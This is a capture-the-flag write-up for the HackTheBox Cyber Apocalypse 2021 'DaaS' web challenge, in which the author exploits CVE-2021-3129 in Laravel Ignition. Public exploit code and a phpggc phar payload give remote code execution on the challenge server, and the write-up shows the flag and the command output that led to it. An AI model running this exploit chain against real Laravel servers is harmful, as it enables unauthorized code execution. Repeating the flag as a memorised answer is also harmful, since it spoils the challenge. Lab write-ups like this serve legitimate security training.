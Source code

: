 # CTF HackTheBox 2021 Cyber Apocalypse 2021 - DaaS

Category: Web, Points: 300

![info.JPG](images/info.JPG)

# DaaS Solution

Let's start the docker and browse it:

![index.JPG](images/index.JPG)

So we can see it's Laravel v8.35.1.

At this version we know about the CVE-2021-3129, We can found exploit at this link [https://github.com/ambionics/laravel-exploits](https://github.com/ambionics/laravel-exploits), Let's try to use it:

```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas]
└──╼ $ git clone https://github.com/ambionics/laravel-exploits.git
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas]
└──╼ $ cd laravel-exploits
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas]
└──╼ $ git clone https://github.com/ambionics/phpggc.git
```

Now, Let's build the phar file contains our payload:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas]
└──╼ $ cd phpggc
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas/phpggc]
└──╼ $ php -d'phar.readonly=0' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system ls
```

We create payload with command ```ls```, Let's run it:

```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas/phpggc]
└──╼ $ python3 ../laravel-ignition-rce.py http://165.227.231.75:31635/ /tmp/exploit.phar
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
favicon.ico
index.php
robots.txt
storage
web.config
--------------------------
+ Logs cleared
```

And we get RCE.
By running ```grep -r CHTB /``` command I found the flag on ```/```.

Let's try ```ls /``` to see the files:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas/phpggc]
└──╼ $php -d'phar.readonly=0' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system "ls /"
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas/phpggc]
└──╼ $ python3 ../laravel-ignition-rce.py http://165.227.231.75:31635/ /tmp/exploit.phar
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
bin
boot
dev
entrypoint.sh
etc
flagAj1Xh
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
--------------------------
+ Logs cleared
```

And we see the file ```flagAj1Xh```, Let's cat this file:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas/phpggc]
└──╼ $python3 ../laravel-ignition-rce.py http://165.227.231.75:31635/ /tmp/exploit.phar
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
--------------------------
+ Logs cleared

```

And we get the flag ```CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}```.